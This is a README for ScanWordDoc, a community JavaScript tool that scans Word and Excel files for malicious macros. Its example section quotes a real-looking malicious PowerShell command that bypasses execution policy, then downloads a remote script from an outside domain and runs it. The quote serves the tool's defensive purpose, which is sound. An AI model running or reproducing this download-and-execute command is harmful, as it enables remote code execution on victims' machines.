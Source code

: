 # ScanWordDoc
Look for malicious patterns in Word Docs. Intended to be used inline with email or standalone per file.

This is a community project at https://www.codeforatlanta.org/ 

## goals
1. Tackle common high value security issues in a way that is accessible to everyone.
2. Create a script that will scan a word doc and validate, it's valid, it works, if it has macros, if those macros look suspicious
3. Create methods / scripts to put it inline with various email systems for easy and free
4. Create a successful patternt that can be used for other similar security use cases.
5. DO NOT compromise the host that is scanning the file
6. Create the script in javascript for ease of portability

## getting started

scan individual files
```bash
> node scan.js ./tests/benign/nomacros.doc
> node scan.js ./tests/benign/hasmacros.doc
> node scan.js ./tests/malicious/hasmacros.doc
```
or scan directories + subdirectories
```
> node scan.js ./tests/
```


## Supported Files
1. Excel XLS
2. Word DOC

## Example Malicious MAcro / Command
```powershell
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -Exec Bypass -NoP -NoExit -Command iex((New-Object System.Net.WebClient).DownloadString('http://qwdiqjwdwqu9daquwddd.com/REX/slick.php?utma=torzd'))
```

## References
- https://www.npmjs.com/package/cfb : currently the primary library supporting functions thanks Yaw Agyepong !
- https://github.com/curi0usJack/luckystrike
- https://github.com/enigma0x3/Generate-Macro
- https://github.com/joesecurity/pafishmacro
- https://github.com/strawp/poisonpen
- https://github.com/gpalazolo/olevba_analyzer
- https://github.com/teto2005/Generate-Macro-is-a-standalone-PowerShell-script-that-will-generate-a-malicious-Microsoft-Office-doc
- https://github.com/Heteroskedastic/corrupt-file-scanner
- https://developers.google.com/gmail/api/quickstart/nodejs
